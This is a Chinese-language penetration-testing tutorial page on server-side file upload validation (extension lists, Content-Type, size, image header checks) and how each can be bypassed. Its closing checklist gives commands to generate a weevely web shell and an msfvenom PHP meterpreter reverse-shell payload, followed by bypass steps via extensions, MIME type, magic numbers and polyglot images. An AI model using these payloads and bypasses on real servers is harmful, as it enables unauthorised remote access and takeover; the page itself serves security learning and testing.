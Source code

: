 

## 文件名验证

文件名验证是指服务器通过检查文件扩展名来验证上传的文件。这种验证基于多种方法，其中最常用的两种方法是将文件扩展名列入黑名单和将文件扩展名列入白名单。

黑名单文件扩展名是一种保护措施，服务器只会拒绝特定扩展名，例如 php、aspx。

而白名单文件扩展名则恰恰相反，只允许少数文件扩展名上传到服务器，例如 jpg、jpeg、gif。



### Content-type / MIME-typ 验证

Content-Type 验证是指服务器通过检查文件的 MIME 类型（可在 http 请求中显示）来验证文件内容。

例如，某些图片文件上传会通过检查文件的 Content-Type 是否为图片类型来验证上传的图片。
例如：Content-type: image/png



## Content-Length 验证

内容长度验证是指服务器检查上传文件内容的长度，并限制文件大小。虽然这种验证方式并不常用，但在某些文件上传中会用到。
例如：文件大小不得超过 10 个字节。



## 检查图像头部内容

当仅允许上传图片时，大多数 Web 应用程序通常会使用服务器端函数（例如 PHP 中的 getimagesize()）来验证图片头。调用此函数时，它会返回图片的大小。

如果文件不是有效的图片，即文件头不是图片的头，则该函数将返回 FALSE。

因此，许多 Web 应用程序通常会检查该函数返回的是 TRUE 还是 FALSE，并根据这些信息来验证上传的文件。
可以使用魔法数字来绕过此验证。

[常见的图像头部签名](https://en.wikipedia.org/wiki/List_of_file_signatures)



# 测试文件上传漏洞并利用

## 基本步骤

```
1. 浏览网站并找到每个上传功能。
2. 使用 Weevely 上传一个 Web Shell 进行基本测试
`weevely generate <password> <path>`
或
使用 Msfvenom `msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.8 lport=4444 -f raw`
3. 如果失败，请尝试使用扩展程序绕过
4. 尝试更改内容类型以进行绕过
5. 尝试使用 Magic 数字绕过
6. 尝试使用 Polygot 或 PNG IDAT 数据块绕过
7. 最后，如果成功，则上传小型 POC 或进一步利用漏洞。

```
